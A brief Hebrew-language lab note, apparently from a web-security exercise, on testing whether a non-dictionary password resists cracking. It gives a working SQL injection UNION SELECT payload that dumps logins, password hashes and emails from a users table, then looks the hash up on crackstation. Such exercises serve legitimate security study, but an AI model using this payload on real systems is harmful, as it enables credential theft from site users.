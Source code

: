 
בדיקת סיסמא לא מהמילון

1.	משנים את הסיסמא למשהו לא מהמילון 
2.	עושים SQLI 
' union select 1,group_concat(login,0x3a,password,0x3a,email,0x0a),3,4,5,6,7 from users
3 . מכניסים את ה hash ל crackstation  ובודקים אם קיים.
https://crackstation.net/
